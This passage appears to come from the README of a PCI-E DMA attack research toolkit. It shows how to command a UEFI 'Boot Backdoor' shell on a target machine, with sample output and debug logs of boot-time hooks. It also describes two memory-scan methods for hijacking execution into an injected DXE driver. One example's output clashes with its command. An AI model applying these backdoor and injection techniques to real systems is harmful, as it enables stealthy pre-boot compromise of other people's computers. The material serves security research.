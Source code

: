 Now, when Boot Backdoor with its payload was sucessfully loaded, you can run `uefi_backdoor_boot_shell.py` with `--attach` option to communicate with currently running instance of DMA Shell:

```
$ ./uefi_backdoor_boot_shell.py --attach --command "dir C:\\"
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Payload shared memory region is at 0x00200000
[+] Executing command: hostname
[+] Process exit code: 0x00000000

DESKTOP-E52IJJ8
```

Also, you can use `--debug-output` option to get debug messages of Boot Backdoor UEFI DXE driver and print them into the stdout:

```
$ ./uefi_backdoor_boot_shell.py --debug-output
[+] PCI-E link with target is up
[+] Debug output buffer address is 0x79da2000

DmaBackdoorBoot.c(630) : ******************************
DmaBackdoorBoot.c(631) :
DmaBackdoorBoot.c(632) :   Boot backdoor loaded!
DmaBackdoorBoot.c(633) :
DmaBackdoorBoot.c(634) : ******************************
DmaBackdoorBoot.c(668) : Image address is 0xc0000
DmaBackdoorBoot.c(711) : Payload is not present
DmaBackdoorBoot.c(276) : BackdoorImageRealocate(): image size = 0xf500
DmaBackdoorBoot.c(722) : Resident code base address is 0x79d8c000
DmaBackdoorBoot.c(430) : Protocol notify handler is at 0x79d8c364
DmaBackdoorBoot.c(455) : BackdoorEntryResident()
DmaBackdoorBoot.c(464) : ExitBootServices() hook was set, handler = 0x79d8ded7
DmaBackdoorBoot.c(358) : new_ExitBootServices() called
Winload.c(419) : WinloadHook(): winload image is at 0x86a000
Winload.c(507) : winload!HvlpBelow1MbPage is at 0xa037c8
Winload.c(508) : winload!HvlpBelow1MbPageAllocated is at 0xa037b9
Winload.c(587) : winload!OslArchTransferToKernel() is at 0x9c4b20
```

To get more information about Boot Backdoor use cases and features [check its README file](https://github.com/Cr4sh/s6_pcie_microblaze/blob/master/python/payloads/DmaBackdoorBoot/README.MD) with detailed information.

Python programs `uefi_backdoor_simple.py`, `uefi_backdoor_hv.py`, `uefi_backdoor_boot.py` and `uefi_backdoor_boot_shell.py` supports two different ways to pass execution to the injected UEFI DXE driver image:

 * `EFI_SYSTEM_TABLE` hijack &minus; scan system memory down from physical address `0xf0000000` to `0` with `0x10000` bytes step in order to find EFI system table by its signature and patch `LocateProtocol()` function address. To override memory scan options you can use `SCAN_FROM` and `SCAN_STEP` environment variables.

 * `PROTOCOL_ENTRY` hijack &minus; scan system memory up from physical address `0x76000000` to `0xa0000000` with `0x1000` bytes step to find `EFI_CPU_IO2_PROTOCOL` structure of [CPU I/O 2 protocol](https://github.com/tianocore/edk2/blob/master/MdePkg/Include/Protocol/CpuIo2.h) and patch one of its functions. To override memory scan options you can use `SCAN_FROM`, `SCAN_TO` and `SCAN_STEP` environment variables.

